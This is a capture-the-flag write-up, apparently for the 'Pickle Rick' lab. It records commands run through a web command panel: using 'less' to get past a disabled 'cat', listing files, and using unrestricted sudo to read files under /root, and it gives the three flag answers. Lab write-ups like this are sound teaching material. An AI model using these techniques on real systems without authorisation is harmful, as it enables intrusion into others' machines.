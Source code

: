 ### 💻 Command Execution Panel
- **Access Control**:
  - Gained access to command execution panel through `portal.php`
  - Identified command restrictions:
    - `cat` command disabled
    - `less` command available
    - Basic Linux commands functional

- **File System Enumeration**:
  ```bash
  ls -la
  ```
  Output:
  ```
  -rw-r--r-- 1 www-data www-data 15 Mar 15  2020 Sup3rS3cretPickl3Ingred.txt
  drwxr-xr-x 2 www-data www-data 4096 Mar 15  2020 assets
  -rw-r--r-- 1 www-data www-data 15 Mar 15  2020 clue.txt
  -rw-r--r-- 1 www-data www-data 15 Mar 15  2020 denied.php
  -rw-r--r-- 1 www-data www-data 15 Mar 15  2020 index.html
  -rw-r--r-- 1 www-data www-data 15 Mar 15  2020 login.php
  -rw-r--r-- 1 www-data www-data 15 Mar 15  2020 portal.php
  -rw-r--r-- 1 www-data www-data 15 Mar 15  2020 robots.txt
  ```

### Finding Ingredients

1. 🥣**First Ingredient**
   - Used `less` command to bypass `cat` restriction:
     ```bash
     less Sup3rS3cretPickl3Ingred.txt
     ```
   - Found: `mr. meeseek hair`

2. 💧**Second Ingredient**
   - Explored `/home/rick` directory:
     ```bash
     ls -la /home/rick
     ```
   - Used wildcard expansion to read file:
     ```bash
     less /home/rick/second*
     ```
   - Found: `1 jerry tear`

3. 🧃**Third Ingredient**
   - Checked sudo permissions:
     ```bash
     sudo -l
     ```
   - Discovered unrestricted sudo access
   - Traversed directories:
     ```bash
     sudo ls -la /root
     ```
   - Read root file:
     ```bash
     sudo less /root/3rd.txt
     ```
   - Found: `fleeb juice`

